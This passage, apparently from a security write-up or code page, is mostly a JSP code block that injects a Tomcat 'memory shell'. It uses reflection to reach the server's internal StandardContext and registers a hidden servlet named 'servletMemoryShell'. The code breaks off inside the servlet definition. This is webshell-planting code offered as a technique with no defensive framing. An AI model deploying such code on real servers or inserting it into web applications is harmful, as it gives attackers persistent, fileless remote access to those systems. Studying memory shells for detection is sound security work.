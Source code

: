 ![](img/6.png)

#### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    String servletMapping = standardContext.findServletMapping("servletMemoryShell");
    if (servletMapping != null) {
        return;
    }

    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName("servletM
emoryShell");
    Servlet servletMemoryShell = new Servlet() {
        public void init(ServletConfig servletConfig) {
        }

        public ServletConfig getServletConfig() {
            return null;
```